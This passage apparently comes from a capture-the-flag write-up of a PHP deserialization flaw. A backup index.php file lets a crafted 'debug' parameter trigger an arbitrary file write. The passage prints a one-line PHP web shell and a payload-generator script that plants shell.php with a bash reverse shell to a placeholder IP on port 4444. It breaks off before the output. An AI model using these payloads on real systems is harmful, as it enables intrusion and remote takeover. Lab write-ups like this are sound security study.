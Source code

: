 
We got a `backup` file, let's check it out:

![](images/Pasted%20image%2020250407133732.png)

We got the `index.php.bak` file, we can visualize the contents of it in order to check for anything unusual:

![](images/Pasted%20image%2020250407134134.png)

![](images/Pasted%20image%2020250407134241.png)

This is highly vulnerable, due to this:

- An attacker can craft a malicious serialized payload and pass it via the `debug` GET parameter (e.g., `?debug=PAYLOAD`).
- The `unserialize()` function will reconstruct the object, triggering the `__destruct()` method of the `FormSubmit` class (or any other class if gadgets exist).
- **Arbitrary File Write**: By controlling `$form_file` and `$message`, an attacker could:
	- Overwrite critical files (e.g., `.htaccess`, `index.php`).       
	- Write a PHP web shell (e.g., `<?php system($_GET['cmd']); ?>`) to gain RCE.


Knowing this, we can proceed to exploitation.


# EXPLOITATION
---

We can do the following:

1. Create a `generate_payload.php` file:

```
<?php
class FormSubmit {
    public $form_file;
    public $message;
}

$payload = new FormSubmit();
$payload->form_file = 'shell.php'; // Filename to create
$payload->message = '<?php exec("/bin/bash -c \'bash -i >& /dev/tcp/IP/4444 0>&1\'"); ?>'; // Reverse shell

echo urlencode(serialize($payload));
?>
```

2. Use the `generate_payload.php` file:

```
php generate_payload.php
```

This will output a URL encoded payload, for example:
